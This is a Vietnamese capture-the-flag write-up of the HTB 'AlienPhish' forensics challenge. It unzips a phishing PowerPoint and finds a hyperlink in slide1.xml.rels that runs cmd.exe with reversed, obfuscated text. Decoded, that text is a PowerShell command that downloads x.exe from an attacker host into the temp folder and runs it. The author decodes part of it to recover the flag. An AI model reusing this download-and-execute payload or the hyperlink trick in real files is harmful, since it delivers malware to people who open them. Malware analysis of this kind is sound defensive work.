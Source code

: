 # AlienPhish

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

{% file src="../../.gitbook/assets/forensics_alienphish.zip" %}

* Tiếp tục với Phân tích tài liệu độc, lần này là một file PowerPoint
*

    <figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

```
┌──(kali㉿kali)-[~/Desktop/HTB/AlienPhise]
└─$ unzip Alien\ Weaknesses.pptx 
Archive:  Alien Weaknesses.pptx
  inflating: [Content_Types].xml     
  inflating: _rels/.rels             
  inflating: ppt/slides/_rels/slide1.xml.rels  
  inflating: ppt/_rels/presentation.xml.rels  
  inflating: ppt/presentation.xml    
  inflating: ppt/slides/slide1.xml   
  inflating: ppt/slideLayouts/_rels/slideLayout5.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout8.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout10.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout11.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout9.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout6.xml.rels  
  inflating: ppt/slideMasters/_rels/slideMaster1.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout1.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout2.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout3.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout7.xml.rels  
  inflating: ppt/slideLayouts/slideLayout11.xml  
  inflating: ppt/slideLayouts/slideLayout10.xml  
  inflating: ppt/slideLayouts/slideLayout3.xml  
  inflating: ppt/slideLayouts/slideLayout2.xml  
  inflating: ppt/slideLayouts/slideLayout1.xml  
  inflating: ppt/slideMasters/slideMaster1.xml  
  inflating: ppt/slideLayouts/slideLayout4.xml  
  inflating: ppt/slideLayouts/slideLayout5.xml  
  inflating: ppt/slideLayouts/slideLayout6.xml  
  inflating: ppt/slideLayouts/slideLayout7.xml  
  inflating: ppt/slideLayouts/slideLayout8.xml  
  inflating: ppt/slideLayouts/slideLayout9.xml  
  inflating: ppt/slideLayouts/_rels/slideLayout4.xml.rels  
  inflating: ppt/theme/theme1.xml    
 extracting: ppt/media/image1.png    
 extracting: ppt/media/image2.png    
 extracting: docProps/thumbnail.jpeg  
  inflating: ppt/presProps.xml       
  inflating: ppt/tableStyles.xml     
  inflating: ppt/viewProps.xml       
  inflating: docProps/app.xml        
  inflating: docProps/core.xml 
```

* Sau khi mình check tất cả các file thì nhận thấy file `slide1_xml.rels` chứa một chuỗi đáng ngờ

```
┌──(kali㉿kali)-[~/…/AlienPhise/ppt/slides/_rels]
└─$ strings slide1.xml.rels 
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId3" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/image" Target="../media/image1.png"/><Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22" TargetMode="External"/><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/slideLayout" Target="../slideLayouts/slideLayout1.xml"/><Relationship Id="rId5" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/image" Target="../media/image2.png"/><Relationship Id="rId4" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe" TargetMode="External"/></Relationships>
```

* Nhìn vào các Target ta sẽ thấy ngay đoạn bất thường

```
Target="cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22"
```

* Nếu để ý thì sẽ thấy một số string bị đảo ngược

```
neila -> alien
htraeyortsed -> destroyearth
ptth -> http
```

* Reverse đoạn Target này lại

```
22%52%=!XCk*:XCk52%02%llac02%002%qel02%X52%02%fi;pma&;pma&!1,X52%~:My!!XCk!=XCk02%tes02%od)0;1-;221(02%ni02%X52%02%L/02%rof;pma&;pma&powershell02%-c02%22%$o02%=02%$env:temp02%+02%'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe';02%iwr02%http:/destroyearth.alien/x.exe02%-outfile02%$o22%=My02%tes22%C/NO:V/02%exe.dmc"=tegraT
```

* Ta có một đoạn  base64 `Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM`

```
>>> import base64
>>> flag = "Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM="
>>> base64.b64decode(flag)
b'CHTB{pH1sHiNg_w0_m4cr0s'
```

Ta có flag cần tìm

\
